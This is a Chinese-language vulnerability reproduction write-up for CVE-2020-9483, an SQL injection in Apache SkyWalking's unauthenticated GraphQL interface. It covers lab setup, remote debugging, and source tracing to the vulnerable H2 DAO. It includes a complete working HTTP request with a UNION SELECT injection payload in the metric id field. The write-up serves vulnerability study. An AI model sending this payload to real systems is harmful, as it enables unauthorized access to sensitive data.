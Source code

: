 # Apache SkyWalking graphql SQL注入漏洞 CVE-2020-9483

## 漏洞描述

腾讯安全威胁情报中心监测到Apache SkyWalking发布更新，修复了一个SQL注入漏洞（编号：CVE-2020-9483）。远程攻击者可通过Apache SkyWalking默认开放的未授权GraphQL接口构造恶意请求包进行注入攻击，成功利用此漏洞可造成敏感数据泄漏。该漏洞等级为高危，腾讯安全专家建议相关企业尽快修复。

## 漏洞影响

```
Apache SkyWalking 6.0.0~6.6.0
Apache SkyWalking 7.0.0
```

## 环境搭建

https://archive.apache.org/dist/skywalking/6.5.0/apache-skywalking-apm-6.5.0.tar.gz

https://archive.apache.org/dist/skywalking/8.3.0/apache-skywalking-apm-6.5.0-src.tgz

## 漏洞复现

下载编译好的源码后，进入bin目录，修改 oapService.sh 通过IDEA进行远程调试

```
for i in "$OAP_HOME"/oap-libs/*.jar
do
    CLASSPATH="$i:$CLASSPATH"
done

OAP_OPTIONS=" -Doap.logDir=${OAP_LOG_DIR}"

eval exec "\"$_RUNJAVA\" ${JAVA_OPTS} ${OAP_OPTIONS} -agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=*:5005 -classpath $CLASSPATH org.apache.skywalking.oap.server.starter.OAPServerStartUp \
        2>${OAP_LOG_DIR}/oap.log 1> /dev/null &"

if [ $? -eq 0 ]; then
    sleep 1
	echo "SkyWalking OAP started successfully!"
else
	echo "SkyWalking OAP started failure!"
	exit 1
```

配置IDEA JVM Debug

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251616557.png)

查看CVE的修复commit寻找修复的地方

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251616973.png)

打下断点并发送Payload请求包

```
POST /graphql HTTP/1.1
Host:
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cache-Control: max-age=0
Content-Type: application/json
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Content-Length: 416

{
    "query": "query queryData($duration: Duration!) {globalP99: getLinearIntValues(metric: {name: \"all_p99\", id: \"') UNION ALL SELECT NULL,CONCAT('~', H2VERSION(), '~')--\" }, duration: $duration) {  values { value } }}",
    "variables": {
        "duration": {
            "end": "2020-08-07 1418",
            "start": "2020-08-07 1417",
            "step": "MINUTE"
        }
    }
}
```

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251617073.png)

在 org.apache.skywalking.oap.query.graphql.resolver 中我们可以看到参数 metrics.getId() 没有过滤就直接传入 getLinearIntValues

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251617628.png)

跟随来到 org.apache.skywalking.oap.server.core.query.MetricQueryService.getLinearIntValues(MetricQueryService.java:96)

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251617333.png)

来到 org.apache.skywalking.oap.server.storage.plugin.jdbc.h2.dao.H2MetricsQueryDAO.getLinearIntValues(H2MetricsQueryDAO.java:117)，这里就将拼接的语句带入数据库进行查询，造成SQL注入

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251617486.png)

调用栈如下

```
getLinearIntValues:117, H2MetricsQueryDAO (org.apache.skywalking.oap.server.storage.plugin.jdbc.h2.dao)
getLinearIntValues:96, MetricQueryService (org.apache.skywalking.oap.server.core.query)
getLinearIntValues:60, MetricQuery (org.apache.skywalking.oap.query.graphql.resolver)
execute:87, GraphQLQueryHandler (org.apache.skywalking.oap.query.graphql)
doPost:81, GraphQLQueryHandler (org.apache.skywalking.oap.query.graphql)
doPost:54, JettyJsonHandler (org.apache.skywalking.oap.server.library.server.jetty)
service:101, JettyJsonHandler (org.apache.skywalking.oap.server.library.server.jetty)
service:105, JettyJsonHandler (org.apache.skywalking.oap.server.library.server.jetty)
```